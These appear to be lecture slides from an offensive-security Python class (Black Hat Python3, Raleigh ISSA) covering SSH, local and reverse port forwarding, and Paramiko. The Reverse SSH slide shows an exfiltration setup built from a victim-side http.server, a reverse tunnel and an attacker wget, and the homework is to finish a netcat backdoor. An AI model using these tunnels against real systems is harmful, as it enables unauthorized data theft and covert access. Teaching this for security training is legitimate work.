


## Welcome to class 8!

### Black Hat Python3 

### Raleigh ISSA

---

## Github repo

https://github.com/tiarno/bhp3_class

---

## Summary from last class

- building images from packet capture streams
- tcp/udp clients and servers
- starting a pure-python netcat clone

---

## Netcat

`netcat.py`

---

## Hexdump

```python
          1         2
012345678901234567890123456789
 Black Hat Python, Raleigh ISSA
:Black Hat :
s = 'Black Hat '
hexa = ' '.join(['%04X' % ord(x) for x in s])

0042 006C 0061 0063 006B 0020 0048 0061 0074 0020

text = ''.join([x if 32 <= ord(x) < 127 else '.' for x in s])

'Black Hat '
```

---

## Writing Bytes

- `hexdumper.py`

---

## SSH 

```
ssh -l testuser 192.168.1.104

ssh -f tim@secretz.com cat secretdata | print
```

---

## SSH Tunneling

Local Port Forwarding

*Syntax*
- local interface, local port:remote host, remote port
- local=attacker remote=victim

```
ssh -L [bind_address:]port:host:hostport

ssh -L localhost:9000:boodelyboo.com:80 testuser@192.168.1.104

```

---

## Basic Tunnel




---

## Tunneling Out



---

## Demo

- server = victim/kali, client = attacker/mac
- server: `netstat -tcp -c` #just for watching 
- client: `ssh -L localhost:9000:192.168.1.104:21 testuser@192.168.1.104`
- client: `python ftpclient.py 127.0.0.1 9000 testuser`

---

## Restricted Port?


---

## Mind bending RSSH

- start remote port forwarding on victim server
- connect to specified port from attacker machine
- profit

---

## Reverse SSH

- Mac: victim
    ```python
    python -m http.server # Data exfiltration

    ssh -l testuser -R 192.168.1.104:3000:localhost:8000 192.168.1.104
    ```
- kali: attacker
    ```python
    wget localhost:3000
    ```

---

## SSH Options

- `-f ` run in background
- `-l username` login with name username
- `-N ` do not exec a command. Port forwarding only
- `-T` do not start up a terminal


---

## SSH (paramiko) Client

- `paramiko_demo.py`

---

## Paramiko Tools


- https://github.com/paramiko/paramiko
- https://resources.infosecinstitute.com/creating-undetectable-custom-ssh-backdoor-python-z/


---

## Your Job

- Finish out your `netcat.py` backdoor
- Study SSH and tunneling
- Recreate ssh with Paramiko

---

## Reading

- ssh tunnel https://www.linuxjournal.com/article/5462
- reverse ssh https://www.bogotobogo.com/Linux/linux_Secure_Shell_SSH_V_ssh_Reverse_SSH_Tunnel_Remote_Port_Forwarding.php

---

## BHP3_class

- github repo
- python package
- discord channel

---

## What we did: Hacking

 - website enumeration
 - password bruteforcing
 - constructed and parsed IP and ICMP headers
 - built UDP network scanner
 - scapy packet analysis and graphics
 - scapy arp poison and dns spoofing
 - netcat tcp client/server app
 - ssh tunneling and paramiko

---

## What we did: Python

- os.walk, lxml
- lists, queues
- threads, processes
- strings, bytes
- try/except/else/finally
- context managers
- sockets
- parse packet headers
- scapy
- named tuple

---

## Things to Remember

- keep your namespaces clean
- be thoughtful about what you name things
- be biased toward simplicity
- solve the problem and no more

---

## Feedback please!

- tim@reachtim.com
- discord: https://discord.gg/WR23qUj

 